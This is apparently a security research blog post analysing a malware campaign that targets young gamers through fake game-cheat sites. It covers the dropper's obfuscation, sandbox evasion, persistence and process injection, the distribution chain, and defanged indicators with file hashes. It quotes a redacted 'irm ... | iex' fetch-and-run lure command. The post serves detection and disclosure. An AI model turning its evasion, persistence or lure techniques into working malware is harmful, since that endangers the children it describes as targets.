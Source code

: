```yaml
---
title: InfoStealer Turned Ransomware
categories:
 - Research
tags:
 - blog
 - Windows
 - Ransomware
 - research
 - RAT
date: 2025-10-16
description: Just when you thought a TA wouldn’t shift TTPs…
authors: 
- tr4ceang3l
- slavetomints
researchers: 
- slavetomints
- tr4ceang3l
- likerofjazz
- akithecatearedmerc
image:
  path: /assets/img/infostealer-turned-ransomware/odisrotz-github.png
  alt: GitHub profile of the TAs
  post: false
---
```


## Introduction
On the 19th of August 2025, an individual –here-by referred to as “V”– requested help on an unnamed Cybersecurity-oriented Discord server, seeking assistance regarding the recovery of a ransomware-infected system. V had claimed to be searching for a supposed “fixer” for a cheat related to Fortnite’s Retrac. Upon further investigation and triaging of V’s system, we discovered the initial social engineering domain `hxxps[://]retracfix[.]vercel[.]app` and a corresponding YouTube video that directed victims to the aforementioned domain. The domain intends to serve malware under the guise of a “system fixer” and a patch for Project Retrac.

## Initial Evaluations
During the initial investigation of the campaign, researchers at DeTraced identified the campaign as being led by a group of threat actors previously associated with the WebRAT malware. We are currently tracking this group as “Betray.” Upon identifying the potential threat actors, the investigation focused on the initial malware dropper, which was extracted from the domain linked to the infection.

The dropper was heavily obfuscated using various techniques, with a primary reliance on Base64 encoding and GZip compression to conceal its contents from the victim's antivirus software. The dropper’s first action upon execution is to perform hardware checks to detect the presence of common indicators for Virtual Machine (VM) environments. If these checks are successful, the malware will terminate its execution to avoid detection in a researcher’s environment.

If the sandbox evasion is successful and the dropper determines it is running on a legitimate victim’s system, it proceeds to execute a series of system commands via PowerShell. The dropper directs itself to the directory `C:\ProgramData` and checks if the folder `IntelDriver` exists. If the folder is not present, the dropper creates it. Once this directory is in place, the dropper creates a new file called `windows.cmd` and writes its own contents into it.

Next, the dropper reads the Base64-encoded content from any line in the `windows.cmd` file that begins with `::`, and decodes this content. The decoded data is saved to a file named `boot64x.w`. After completing this step, the dropper proceeds to establish persistence on the system by writing a VBScript to a file called `%computername%_windows64x_APZOacoasfjc.vbs`. This script is configured to run the dropper’s payload every minute by creating a Scheduled Task at the path `%AppData%\IntelDriverTask.xml`.

With persistence established, the dropper continues by setting up the main payload. It again reads from `windows.cmd`, specifically extracting data from the section prefixed with `rem`. This data is copied to a file named `netstat.c`. Once `netstat.c` is successfully written, the dropper decodes the Base64-encoded content, decompresses it using Gunzip, and stores the decompressed data into a `byte[]` object. Finally, this decoded content is saved as a valid binary to the file `AarSvcw.dll`.


Now that the main payload has been created, we can take a look at how the malware really operates. For the most part, the payload can be dissected with static analysis. The primary interests of the payload are its use of XOR to encrypt the strings with the single-byte key `0x5A`; using this key, we can decrypt most of the strings in the payload. As a fallback, the payload will recreate the Scheduled Task if, at some point, the file was deleted or moved to ensure persistence, the next stage is to consistently check if a debugger has been attached to the payload to which it will attempt to scramble the memory it’s in and immediately terminate itself to deter dynamic analysis, we can neutralise this check by simply patching the related function calls with `00`s. Once the persistence check has passed, the payload will proceed to extract another set of encrypted data stored within `boot64x.w` and loads it into memory, preparing itself to then inject the secondary payload into `explorer.exe`.

The contents of the secondary payload are currently unknown to us as we continue to investigate the malware and the affiliated campaign’s supply chain.

## Supply-chain Analysis
Betray uses YouTube videos that advertise cheats and "fixer" scripts for video games, aiming to get kids and teens who are looking for cheats for video games. The videos show the user running a script in Windows Command Prompt, and then it cuts to them playing the game with the supposed benefits of the cheat. During the video, the attacker will go over the installation process and will claim that the user's antivirus software will detect it, but it is a false positive. 

![the youtube videos](/assets/img/infostealer-turned-ransomware/videos.png)

This little bit of social engineering will be good enough to work on most users and trick the victim into interacting with the video description and following the website link, which brings them to an application hosted on Vercel. Betray has two different styles of websites. One type will have a download button for users to click on, and others will include a `irm [TINYURL LINK] | iex` command for the users to run on their systems.

![](/assets/img/infostealer-turned-ransomware/download-page.png)
![](/assets/img/infostealer-turned-ransomware/retrac-irm-iex.png)

In both cases, the goal is to get the user to download and run the batch or PowerShell scripts that Betray uses as a dropper for their malware.

Betray also includes directions on their websites for users to follow, which include having users ignore warnings from their antivirus software.

![](/assets/img/infostealer-turned-ransomware/download-instructions.png)

Once the victim follows these steps, the malware is now on the user's system and will execute. But where does the malware come from?

Inspecting the network connections when the file was downloaded revealed that it came from a release from a GitHub repository, so we went and checked it out.

![](/assets/img/infostealer-turned-ransomware/odisrotz-github.png)

This is one of multiple GitHub accounts found throughout this campaign. Inspection of the repositories either turned up an empty repository with 1-2 releases or a repository full of malware. Looking into the releases answered as to where the malware came from.

![](/assets/img/infostealer-turned-ransomware/odisrotz-releases.png)

Betray typically hides their malware in the repository releases, and when a victim clicks on the download button, it would redirect their browser to a link such as `hxxps[://]github[.]com/odisdrotz71/thermia/releases/download/Thermia/ThermiaPredictor[.]exe`. Further inspection of the GitHub account and its other repositories led to the discovery of more malicious websites for different games, including Roblox, a popular game among kids, Stake Mines, a minesweeper casino game, and Rainbow 6 Siege, an FPS shooter game.

Some of those sites looked like this:

![](/assets/img/infostealer-turned-ransomware/valex-vercel-app.png)
![](/assets/img/infostealer-turned-ransomware/valexexecutor-vercel-app.png)
![](/assets/img/infostealer-turned-ransomware/thermiapredictor.png)
![](/assets/img/infostealer-turned-ransomware/r6s-recoil.png)

It is worth noting that none of the other buttons on the websites would work; they would redirect back to the top of the page.

Betray has also leveraged GitHub Gists and `hxxps[://]filedoge[.]com` for distribution and hosting of samples; however, the `filedoge[.]com`web server has been offline since August 2025, and still is at the time of this report.

## Conclusion

After their stint with hiding RATs in video game cheats, the TA expanded into the malware selling scene, attempting to sell a strain known as XWorm on hxxps[://]rce[.]lol, and a batch script obfuscator on hxxps[://]betray[.]cfd. Analysis of bitcoin addresses found to be linked with the TA reveals that they never ended up receiving any payment through cryptocurrency, but they also used PayPal and Roblox gift cards.

Some sites remain active as we work to take them down, but most have been categorized by search engines as unsafe to browse.

## Indicators of Compromise

*For the full list of IOCs and YARA rules, please check out [DeTraced-Security/detection-rules](https://github.com/DeTraced-Security/detection-rules/tree/main/groups/betray)*

### RetracFix Sample:

```
Output DLL: AarSvcw.dll
Intermediates: windows.cmd, boot64x.w, netstat.c (used during reconstruction)

Hash – original BAT: 38aa08661729dd3c2ae3c1fb98f85f6aa4ff5e7385b0db2a65e9e85747848ad8
Hash - boot64x.w (Obfuscated): 5b1ed346d3a84543f527aa89135037d3bf56b9343b38cbeb340811da5d9a5e43 
Hash - AarSvcw.dll (Decoded): 2ce0dc292b81c72271bc9f0961271fac1e4d42b35292ce56b241174bbbeb4b46 
Hash - windows.cmd (Obfuscated): 07be8edabaa28e6d4ce30c5999b22aab53eac89a43fb036cd3cec15b63b7a81c
```

### Affiliated Samples
```
40b461edb9b2a18bc2ed8236789c1672  2fa.bat
7c92b6d50d1ab7ae24ee93d307c376f2  2faBeta.exe
bc1cfd626ef0eedcdcc46036b649c406  a.exe
780c2f5e127d12181b6650cededecd58  built-agbcfdxdfsdf.bat
161d57257ea219a030d2c902e85c5b18  CharmBootstrapper.bat
51b03d9bae4a53dd4e6210254084b806  ExecFix-2.bat
18bd43b2dfad0c247148db1afdf8462e  ExecFix.bat
220d8aa7e914dfbd52b29d25fbf5e9cd  LuckyGrid.exe
c8a8bf528e1ba3ff05ddd9368efd9f82  MinesPredictor.bat
b80538c353bd0a35e28b0b7c958a0689  r6_recoil.exe
0ee7449dd865145498ad23c43fba4754  retrac_fixer_loader.bat
da84fb352ca22ec2c94abd6f8851ea68  thermia.bat
e014911669d783a05005d48e9e6e8c2c  ThermiaPredictor-2.exe
8060fca6ac9ce3ebceba15f66db02443  ThermiaPredictor.exe
cf5005ebdc43ad19863b701025a4279b  ValexUpdater.exe
45bb4c63b0badff7721d2012b6482073  verbal.exe
fe5c839be7074513d2be80356e807fba  wcarrpt.bat
```
